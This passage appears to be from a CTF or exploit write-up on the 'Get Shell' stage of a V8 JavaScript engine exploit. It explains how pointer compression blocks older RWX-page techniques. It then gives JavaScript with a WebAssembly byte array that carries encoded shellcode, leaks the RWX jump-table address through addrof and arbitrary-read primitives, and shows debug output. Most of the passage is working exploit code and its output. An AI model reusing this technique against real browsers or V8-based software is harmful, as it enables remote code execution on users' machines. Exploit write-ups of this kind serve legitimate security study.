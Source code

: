 ```
}
```

### Get Shell

Techniques like copying shellcode to the start address of the RWX page (as described in this writeup) no longer work in this version of V8. The key reason is that the `backing_store_pointer` of an `ArrayBuffer` only stores the lower 32 bits of the pointer due to V8's pointer compression. The higher 32 bits are retrieved from the heap object, as all JavaScript values are stored within the same segment. This limitation prevents us from accessing addresses outside of the V8 heap, such as the RWX page.

However, the starting address of RWX page still serves a jump table which will be jumped to when we call a WebAssembly exposed function. To avoid writing the shellcode to that address, we instead first write the shellcode in the JITed WebAssembly code directly and overwrite the jump table pointer to the start of the shellcode. This time, we are not writing to the RWX page directly but overwrite the jump table pointer stored in the V8 heap.

```
var wasm_code = new Uint8Array([
  0, 97, 115, 109, 1, 0, 0, 0, 1, 4, 1, 96, 0, 0, 3, 3, 2, 0, 0, 5, 3, 1, 0, 1,
  7, 19, 2, 7, 116, 114, 105, 103, 103, 101, 114, 0, 0, 5, 115, 104, 101, 108,
  108, 0, 1, 10, 99, 2, 3, 0, 1, 11, 93, 0, 65, 0, 66, 212, 188, 197, 249, 143,
  146, 228, 245, 16, 55, 3, 0, 65, 8, 66, 186, 161, 128, 128, 128, 128, 228,
  245, 6, 55, 3, 0, 65, 16, 66, 177, 128, 191, 168, 128, 146, 228, 245, 6, 55,
  3, 0, 65, 24, 66, 184, 247, 128, 128, 128, 128, 228, 245, 6, 55, 3, 0, 65, 32,
  66, 212, 190, 197, 177, 159, 198, 244, 245, 6, 55, 3, 0, 65, 40, 66, 143, 138,
  172, 247, 143, 146, 164, 200, 144, 127, 55, 3, 0, 11,
]);

var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var shell = wasm_instance.exports.shell;
var trigger = wasm_instance.exports.trigger;

var rwx_page_addr = arbitrary_addr_read(addrof(wasm_instance)+0x50n);
console.log("[+] RWX Wasm page addr: 0x" + rwx_page_addr.toString(16));
%DebugPrint(wasm_instance);
```

The output:
```
[+] RWX Wasm page addr: 0x1a032f8f6000
DebugPrint: 0x22b000195925: [WasmInstanceObject] in OldSpace
 - map: 0x22b00018f819 <Map[224](HOLEY_ELEMENTS)> [FastProperties]
 ...
 - jump_table_start: 0x1a032f8f6000
 - data_segment_starts: 0x22b000000f59 <ByteArray[0]>
 - data_segment_sizes: 0x22b000000f59 <ByteArray[0]>
 - element_segments: 0x22b000000219 <FixedArray[0]>
 - hook_on_function_call_address: 0x5a98b3665989
 - tiering_budget_array: 0x5a98b36a6a50
 - memory_bases_and_sizes: 0x22b0000471dd <ByteArray[16]>
 - break_on_entry: 0
 - properties: 0x22b000000219 <FixedArray[0]>
 - All own properties (excluding elements): {}
```
